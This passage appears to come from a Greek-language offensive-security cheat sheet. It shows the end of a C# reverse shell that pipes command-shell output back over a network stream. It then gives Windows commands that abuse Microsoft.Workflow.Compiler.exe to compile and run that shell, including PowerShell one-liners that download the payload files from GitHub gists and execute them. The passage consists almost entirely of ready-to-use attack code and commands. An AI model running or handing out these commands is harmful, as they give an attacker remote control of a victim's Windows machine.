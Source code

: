 ```csharp
//strInput.Append("\n");
p.StandardInput.WriteLine(strInput);
strInput.Remove(0, strInput.Length);
}
}
}
}
}

private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
{
StringBuilder strOutput = new StringBuilder();

if (!String.IsNullOrEmpty(outLine.Data))
{
try
{
strOutput.Append(outLine.Data);
streamWriter.WriteLine(strOutput);
streamWriter.Flush();
}
catch (Exception err) { }
}
}

}
}
```
### C# χρησιμοποιώντας μεταγλωττιστή
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt.txt REV.shell.txt
```
[REV.txt: https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066](https://gist.github.com/BankSecurity/812060a13e57b815abe21ef04857b066)

[REV.shell: https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639](https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639)

Αυτόματη λήψη και εκτέλεση:
```csharp
64bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell

32bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell
```
{% embed url="https://gist.github.com/BankSecurity/469ac5f9944ed1b8c39129dc0037bb8f" %}
